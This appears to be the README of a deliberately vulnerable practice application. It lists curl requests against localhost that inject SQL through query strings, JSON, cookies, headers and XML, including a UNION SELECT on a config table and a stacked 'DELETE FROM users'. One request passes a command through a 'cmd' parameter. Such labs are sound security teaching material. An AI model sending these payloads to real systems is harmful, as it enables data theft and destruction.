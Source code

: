 # vulnerable

## SQL Injection

### GET request - Get list of users - filter by query param
```bash
curl http://localhost:8080/vun/sql/example1/api/users?name=michal
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20or%201=1%20--%20-
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20UNION%20SELECT%20%2A%20FROM%20config%20%2D%2D%20%2D
```

### POST request - Get list of users - filter by json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### Post request - Create new User
```bash
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - Get list of users - filter in cookie
```bash
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - Get list of users - filter in header
```bash
curl http://localhost:8080/vun/sql/example5/api/users -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/api/users -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - Get list of users - filter by xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/api/users -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/api/users -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```

## CMD Injection

### GET request - cmd in query param
```bash
curl http://localhost:8080/vun/cmd/example1/?cmd=pwd
```